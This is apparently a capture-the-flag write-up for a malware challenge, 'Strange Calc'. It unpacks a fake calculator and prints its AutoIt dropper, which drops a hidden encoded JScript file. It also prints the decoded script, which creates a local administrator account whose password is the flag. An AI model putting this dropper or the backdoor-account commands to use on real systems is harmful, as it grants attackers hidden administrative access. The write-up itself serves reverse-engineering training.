

# Strange Calc

I got this new calculator app from my friend! But it's really weird, for some reason it needs admin permissions to run??

- Category: malware
- Challenge file: calc.zip

### Solution:

##### 1. Run the calc.exe
- Will notice UAC prompt (Failed open the calculator)



And notice a dropper of jse file with random string 

##### 2. Run calc.exe with procmon to monitor its process
- Will notice multiple wscript.exe run with the PPID of calc.exe


##### 3. Analyze calc.exe with PEStudio and DetectITEasy


Conclusion: Calc.exe is complied using AutoIT and being packed with UPX

##### 3. Use autoit-ripper to extract autoit script that runs and compile from calc.exe

```
autoit-ripper calc.exe dump
```

script.au3:
```
; <AUT2EXE VERSION: 3.2.4.9>
; ----------------------------------------------------------------------------
; <AUT2EXE INCLUDE-START: C:\Users\johnh\Desktop\Desktop\otto_calculator.au3>
; ----------------------------------------------------------------------------
#NoTrayIcon
#Region
#AutoIt3Wrapper_Change2CUI=y
#EndRegion
If Not IsAdmin() Then
    MsgBox(16, "Error", "You must have administrator privileges.")
    Exit
EndIf
Local $a = "I0B+XmNRTUFBQT09VyF4XkRrS3hQbWAoYgk3bC5QMSdFRUJOJyggL2FWa0RjRS0JSippV1cuYzdsLlB/eCFwK0AhW2NWK1VMRHRJKzNRKgktbUQsMCc5JH9EUk0rMlZtbW5jSjcta1F1Jy9fZiZMfkVCKmlyMGNXY2tVTn9hcjZgRTh/b2tVRSoneCdaay0wIGJ4OSs2fTB2RSsJTkUjeyd4VC11MHt4J3JKIzFHVVlieCErSVxDLixveGA2IG00bC4vS04rKU92IWJPMisqW38yaTZXRHZcbS5QNCdxaTRAIVcgXit4VE90cHRfeypiCWIwdnRRJkAqeDZScysJTFk0Izguf2wzSS1tRH5re2M2Ul40bE1aVzkrek9gNCNSJnkjJ38yfkx7YzBjbXRtLi9XOSt6WWN0UXEqT2YgKid2Mn5WeHYwUl40bUQvVzluelljNF95I08yICondjJ+cyd2MCBeNGxEO0dOf2JZdjRRJipPMiBiW39mcG1RJ1VPRGJ4TCA2RFdoLzRsLlpLW39gY2JAIUAhICMtYE5AKkAqVyNiaWIwYzQzIEAhNiBWf3hvRDRSRiptMydqWS5yCW8gME1HOjt0Qy47V05uY3ZgJVs4WCpAIUAhVyMtYDNAKkAqeWIjcGtXYDRfZkAhNlJWf1VvRHRPOGJeX3s/RERyeEwgNkRHOjs0bE1aR1t/YGBjVkwmYkAhQCF/KnVzKjgpRCtERU1VUDFSZEUoL08uYnhvdlR+VCM4N0MuUHMncjRub3JVLHYqYyxSLQlNMW81YiwJSklSZmAiMXdgXUJ2dWIsO15xUiZ7MlMuT2YwL3YoLFtAIShjJiJ6Un8hSX5xS00tVXwneG54OUVpN2wufgknbGNoKmktbE1+Sycscnh/WVAhL38uUGRXXmxeYltoYnhra09EbVlXTX5FXwlfclAmbFtbcn5FeH9PUF5XXkNeb0RHO2FQQ05zcglrZEREbVlXTS8sSlcxbHNiOTpyVWIvWU1DWUtEUEpDW05yfnJtQ1ZeIH82bkpZSVxtRH4ye3grQX56bU9rN25vcjhOKzFZYEV/VV5EYndPUlV0bnNeQiNwV1dNYFxtLn47eyFwO0AhVyBzf3hMWTRSRnA7UVEqCXcgXSF4Y1ddNVl+VEIwbVYvfyMpMlIiRVVgSyQrREJGfjZDVmsrI3A0UkFCQUE9PV4jfkA="
Local $b = x($a)
Local $c = r(4) & r(2) & r(3) & r(1) & ".jse"
Func r($aa)
    Local $zz = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    Local $s = ""
    For $i = 1 To $aa
        $s &= StringMid($zz, Random(1, StringLen($zz), 1), 1)
    Next
    Return $s
EndFunc
Local $d = FileOpen($c, 2)
If $d = -1 Then
    MsgBox(16, "Error", "Failed to open the calculator.")
    Exit
EndIf
FileWrite($d, $b)
FileClose($d)
FileSetAttrib($c, "+H")
FileSetAttrib($c, "+S")
Func x($e)
    Local $f = DllStructCreate("dword")
    DllCall("crypt32.dll", "int", "CryptStringToBinaryA", _
        "str", $e, _
        "dword", StringLen($e), _
        "dword", 1, _
        "ptr", 0, _
        "ptr", DllStructGetPtr($f), _
        "ptr", 0, _
        "ptr", 0)
    Local $g = DllStructCreate("byte[" & DllStructGetData($f, 1) & "]")
    DllCall("crypt32.dll", "int", "CryptStringToBinaryA", _
        "str", $e, _
        "dword", StringLen($e), _
        "dword", 1, _
        "ptr", DllStructGetPtr($g), _
        "ptr", DllStructGetPtr($f), _
        "ptr", 0, _
        "ptr", 0)
    Return BinaryToString(DllStructGetData($g, 1))
EndFunc
$o = ObjCreate("MSScriptControl.ScriptControl")
$o.Language = "JScript"
$p = "new ActiveXObject('WScript.Shell').Run('wscript.exe " & $c & "',1,false);"
$o.ExecuteStatement($p)
; ----------------------------------------------------------------------------
; <AUT2EXE INCLUDE-END: C:\Users\johnh\Desktop\Desktop\otto_calculator.au3>
; ----------------------------------------------------------------------------

```

#### 4. Notice payload to create jse file 

- Use vbeDecoder.cli to decode jse

```

'############################################################
'# vbeDecoder - by Sylvain Bruyere 
'# - Input File: 

function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);

```

#### 5. Deofuscate the js script:

```js
function decode(b) {
    var c = "", d = b.split("\n");
    for (var e = 0; e < d.length; e++) {
        var f = d[e].replace(/^\s+|\s+$/g, ''); // trim spaces
        if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "") continue;
        var g = (f.charCodeAt(0) - 32) & 63;
        for (var h = 1; h < f.length; h += 4) {
            if (h + 3 >= f.length) break;
            var i = (f.charCodeAt(h) - 32) & 63,
                j = (f.charCodeAt(h + 1) - 32) & 63,
                k = (f.charCodeAt(h + 2) - 32) & 63,
                l = (f.charCodeAt(h + 3) - 32) & 63;
            c += String.fromCharCode((i << 2) | (j >> 4));
            if (h + 2 < f.length - 1) c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
            if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l);
        }
    }
    return c.substring(0, g);
}

// The encoded string
var m = "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";

// Decode and print the result
var decoded = decode(m);
console.log("Decoded content:", decoded);
```

javascript code to decode m variable with UUencoding 

```js
function decode(b) {
    console.log("Input string:", b);
    var c = "", d = b.split("\n");
    console.log("Split lines:", d);
    
    for (var e = 0; e < d.length; e++) {
        var f = d[e].replace(/^\s+|\s+$/g, ''); // trim spaces
        console.log(`Processing line ${e}:`, f);
        
        if (f.indexOf("begin") === 0 || f.indexOf("end") === 0 || f === "") {
            console.log("Skipping line (begin/end/empty)");
            continue;
        }
        
        var g = (f.charCodeAt(0) - 32) & 63;
        console.log("Length byte:", g);
        
        for (var h = 1; h < f.length; h += 4) {
            if (h + 3 >= f.length) {
                console.log("Breaking due to insufficient characters");
                break;
            }
            
            var i = (f.charCodeAt(h) - 32) & 63,
                j = (f.charCodeAt(h + 1) - 32) & 63,
                k = (f.charCodeAt(h + 2) - 32) & 63,
                l = (f.charCodeAt(h + 3) - 32) & 63;
                
            console.log(`Processing group at position ${h}:`, i, j, k, l);
            
            c += String.fromCharCode((i << 2) | (j >> 4));
            if (h + 2 < f.length - 1) c += String.fromCharCode(((j & 15) << 4) | (k >> 2));
            if (h + 3 < f.length - 1) c += String.fromCharCode(((k & 3) << 6) | l);
        }
    }
    
    console.log("Final string before truncation:", c);
    return c.substring(0, g);
}

// The encoded string
var m = "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";

// Decode and print the result
var decoded = decode(m);
console.log("Decoded content:", decoded);
```

Output:
```bash
Input string: begin 644 -
G9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*
`
end
Split lines: [
  'begin 644 -',
  'G9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*',
  '`',
  'end'
]
Processing line 0: begin 644 -
Skipping line (begin/end/empty)
Processing line 1: G9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*
Length byte: 39
Processing group at position 1: 25 38 49 33
Processing group at position 5: 25 55 44 57
Processing group at position 9: 14 19 8 50
Processing group at position 13: 25 38 8 50
Processing group at position 17: 12 22 5 33
Processing group at position 21: 25 35 4 55
Processing group at position 25: 13 19 29 37
Processing group at position 29: 12 54 25 36
Processing group at position 33: 24 35 8 56
Processing group at position 37: 25 3 28 56
Processing group at position 41: 14 19 1 33
Processing group at position 45: 13 22 16 57
Processing group at position 49: 12 55 52 10
Processing line 2: `
Length byte: 0
Processing line 3: end
Skipping line (begin/end/empty)
Final string before truncation: flag{9922fb21aaf1757e3fdb28d7890a5d93}
Decoded content:
```
